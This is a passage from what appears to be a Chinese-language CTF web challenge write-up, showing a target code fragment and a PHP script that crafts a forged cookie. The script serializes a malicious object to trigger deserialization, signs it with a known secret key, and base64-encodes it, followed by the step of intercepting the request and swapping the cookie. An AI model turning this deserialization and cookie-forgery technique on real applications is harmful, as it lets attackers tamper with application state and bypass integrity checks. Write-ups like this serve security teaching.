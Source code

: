```php
        if(!isset($_COOKIE['monster'])){
            $this->Set();
            return;
        }
```
终于理清了变量之间的关系，那么就开始构造，下面是payload
```php
<?php
class Rank {
    private $rank=1;    //修改rank
}

$encryptKey = 'gkUFUa7GfPQui3DGUTHX6XIUS3ZAmClL';   //签cookie的密匙

$monsterData = array(
    'name' => new Rank(),       //触发反序列化，当调用name的时候，rank就会更新成1
    'no' => rand(1, 2000),
);

$sign='';
$playerName='123';              //随便设个名字，只要和POST上去的一样就行了
$data = [$playerName, $encryptKey];
foreach($data as $key => $value){
    $sign .= md5($sign . $value);
}
$encryptKey=$sign;
$sign = md5(serialize($monsterData) . $encryptKey);
$cookiedata=base64_encode(serialize($monsterData) . $sign);

echo($cookiedata);
?>
```
跑一下就生成我们需要的cookie
![](img/week3-web-9.png)  
最后截包替换cookie即可
